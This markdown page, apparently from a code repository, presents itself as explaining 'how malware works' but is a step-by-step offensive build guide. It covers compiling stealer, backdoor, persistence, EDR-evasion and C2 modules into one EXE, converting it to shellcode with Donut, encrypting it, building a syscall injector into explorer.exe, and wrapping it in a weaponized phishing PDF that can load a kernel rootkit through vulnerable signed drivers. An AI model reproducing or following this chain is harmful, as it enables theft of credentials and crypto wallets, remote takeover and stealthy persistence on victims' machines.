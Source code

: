 # How Malware Works — Modular Malware Build System (Ghost Inject Chain)

This is your  **end-to-end ATP-grade modular build system** , where each layer of the malware is designed to  **operate in memory** ,  **evade EDRs** , and  **maintain OPSEC with layered encryption and injection** .

---

## ⚙️ Step 1: Design Your Modular Core

The `stealer/` directory holds all modules compiled into one final malware EXE.

```
stealer/
├── stealer.c       # Core logic — wallet drainer, browser stealer, clipwatcher
├── backdoor.c      # Reverse shell, TOR beacon, DNS callback
├── persistence.c   # WMI Timer, RunKey, Task Scheduler, DLL hijack
├── evasion.c       # AMSI bypass, ETW patch, syscall mapping, unhookers
├── c2.c            # DNS-over-TOR beacon logic, fallback IP rotation
├── injector.c      # Elevation logic, drops + loads vulnerable driver
├── rootkit.sys     # Kernel-mode stealth payload (SSDT hooks, hide files/processes)
```

✅ These are **linked into a single standalone payload** that can self-operate in memory.

---

## 🔨 Step 2: Compile Modular Payload → `loader.exe`

```bash
x86_64-w64-mingw32-gcc stealer.c backdoor.c persistence.c evasion.c c2.c injector.c -o loader.exe -static
```

💡 This produces a **standalone EXE** with all modules embedded. **Stealth-resident.**

---

## 🍡 Step 3: Convert EXE → Shellcode with Donut

```bash
donut.exe loader.exe -o loader.bin
```

* `loader.bin` is now  **Donut shellcode format** , suitable for raw memory injection
* Executes  **in memory** , bypassing disk-based AV/EDR

---

## 🔐 Step 4: Encrypt with CryptexX

```bash
CryptexX.exe loader.bin -o cryptexx.enc -p "UltraKey123!" -bind -hwid -window
```

This adds:

* **AES+XOR dual-layer encryption**
* **HWID locking** (only runs on target machine)
* **Time window** (expire after X days)
* **Loader hash binding** (anti-repacker)

Result: `cryptexx.enc` — fully encrypted + metadata-wrapped payload.

---

## 👻 Step 5: Stub Creation with GhostInject

```bash
GhostStubBuilder.exe cryptexx.enc UltraKey123! explorer.exe -o GhostInject.exe
```

* Creates a **RAM-only loader**
* Injects into **explorer.exe** using **direct syscalls**
* Executes **decrypted shellcode** in memory
* Leaves **zero disk trace**

✅ `GhostInject.exe` is your  **memory-only ATP loader** .

---

## 💣 Step 6: Weaponized Dropper Creation

```bash
python3 dropper.py --input GhostInject.exe --output payload.pdf --template clean_decoy.pdf
```

* Wraps `GhostInject.exe` into **PDF or Office file**
* Uses **macro, JS, or CVE-based exploits**
* Drops and executes  **in memory** , loads CryptexX payload

✅ `payload.pdf` = weaponized phishing file.

---

## 🧼 Malware Execution Chain Summary

```
User opens ➔ payload.pdf
         ➔ Dropper activates
         ➔ Drops GhostInject (RAM-only)
         ➔ GhostInject decrypts cryptexx.enc
         ➔ Donut loader.bin is injected into explorer.exe
         ➔ explorer.exe now runs:
             ├─ stealer.c         (wallets, creds)
             ├─ backdoor.c        (reverse shell)
             ├─ persistence.c     (startup stealth)
             ├─ evasion.c         (AMSI, ETW bypass)
             ├─ c2.c              (exfil via DNS/TOR)
             └─ injector.c        (if admin: drop + map rootkit)
                                  ├─ driver.sys     (signed vuln driver: RTCore64, GDRV)
                                  └─ rootkit.sys    (loaded into kernel memory)
```

---

## ✅ Final Output Map

| Stage             | File                | Description                         |
| ----------------- | ------------------- | ----------------------------------- |
| Build             | `loader.exe`      | Combined malware logic EXE          |
| Shellcode         | `loader.bin`      | Donut shellcode format              |
| Encrypted Payload | `cryptexx.enc`    | AES+XOR+metadata+HWID locked blob   |
| Memory Loader     | `GhostInject.exe` | RAM-only syscall injector           |
| Delivery File     | `payload.pdf`     | Weaponized phishing delivery        |
| Rootkit Payload   | `rootkit.sys`     | Kernel-mode SSDT hooker/AV killer   |
| Signed Driver     | `driver.sys`      | Vulnerable signed driver for loader |

---

## 🔥 You Now Control:

* Modular credential + wallet stealer
* Full remote access via backdoor
* Memory-only loader chain (zero disk trail)
* Kernel-mode rootkit injection (Ring 0)
* TOR/DNS exfil with fallback rotation
* HWID-bound encryption with time kill-switch

---
